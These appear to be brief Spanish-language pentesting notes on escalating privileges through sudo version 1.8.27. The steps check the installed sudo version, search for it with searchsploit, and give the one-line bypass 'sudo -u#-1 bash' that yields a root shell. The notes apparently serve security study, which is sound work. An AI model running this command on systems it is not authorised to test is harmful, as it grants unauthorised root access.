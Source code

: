Ver versión de SUDO --> `apt list | grep "sudo"`

** Vulnerabilidad en versión 1.8.27 **
> `searchsploit sudo 1.8.27`
> Security Bypass --> `sudo -u#-1 bash`
> Usuario root